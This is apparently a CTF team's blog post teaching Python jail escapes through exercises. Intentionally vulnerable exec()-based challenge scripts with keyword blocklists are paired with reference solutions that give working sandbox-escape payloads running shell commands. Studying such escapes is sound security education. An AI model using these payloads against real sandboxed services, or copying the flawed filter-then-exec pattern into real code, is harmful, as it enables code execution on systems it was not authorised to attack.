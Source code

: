 ```yaml
---
layout: post
title: "Python Jail Escapes"
categories: learning
author: Liam
---
```


At our weekly meetings we had a talk about Python jail escapes, aka. getting around restrictions that make it hard to execute `os.system('cat flag.txt')`. In the talk we went through challenges, that we present here as exercises to practice. Starting very simple and then digging more and more into python internals.

Solve them yourself, by copying the script and providing input that executes `os.system('cat flag.txt')`. Afterwards you can compare your solution to the one we had in mind, there are always different ways. For some reference solutions it is relevant to mention, that we used Python 3.11.2.

Leaning about Python Jail Escapes it is helpful to ask questions like:
* How are modules and classes implemented in Python?
* What are frozen modules?
* How does syntactic sugar get replaced? You may start at `import someting` or `array[5]`.
* How many ways are there to call a function/method other than `lmao()`/`lm.oa()`?

## Happens way too often

```python
import string

code = input('Your scientific computation: ')

code = ''.join([c for c in code if c in string.printable])

forbidden = ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']
for f in forbidden:
    code = code.replace(f, '')
exec(code)
```

<details>
<summary>Reference Solution</summary>

No need for recursivity. This is Python not Haskell.

<code>imosport ooss; ooss.sysostem('cat flag.txt')</code>
</details>

## Correct, or jail

```python
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']:
    if keyword in code:
        print('You are jailed!')
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

There is a `for/else` in Python???!!? Ah, and obviously:

<code>globals()['__built'+ 'ins__'].__dict__['__im' + 'port__']('o' + 's').__dict__['sys' + 'tem']('cat flag.txt')</code>
</details>

## Only causing trouble

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Based solution:

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[''.join(['sy', 'stem'])]('cat flag.txt')</code>
</details>

## Ahhhhhhhhhh, no more fun for you

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+', '"', "'"]:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Are there simpler solution to construct a string? Yes. Does this one get you the flag? Also, yes. So why are you asking?

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[().__str__()[:0].join([i.to_bytes().decode() for i in [115, 121, 115, 116, 101, 109]])](().__str__()[:0].join([i.to_bytes().decode() for i in [99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116]]))</code>
</details>

## Now it is over, isn't it?

```python 
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins',
                '.', '[', ']']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

it is not over until you remove getattr

<code>getattr(getattr(getattr(globals(), 'get')('__bu' + 'iltins__'), '__imp' + 'ort__')('o' + 's'), 'sys' + 'tem')('cat flag?txt')</code>
</details>




## Treebox

From [Google Capture The Flag 2022](https://ctftime.org/event/1641/)

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

<details>
<summary>Reference Solution</summary>

Our solution, specifically the solution of Benedikt, looked something along the lines of:

<code>
class NotACall(Exception):
    __add__ = exec


try:
    raise NotACall
except NotACall as e:
    e + 'import os; os.system("cat flag.txt");exit(0)'
--END
</code>
</details>

## Treebox is no match for Robin

This a modified version of the treebox challenge, here to point out a particular way to solve the challenge.

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if '(' in line or ')' in line:
        print("ERROR: Parentheses are not allowed")
        exit(1)
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
else:
    print("ERROR: Code is not safe")
    exit(1)
```

<details>
<summary>Reference Solution</summary>

Also, no match for Robin, we yet have to find anything that is.

Solution by Robin Jadoul:
<code>
# https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
    pass
--END
</code>
</details>
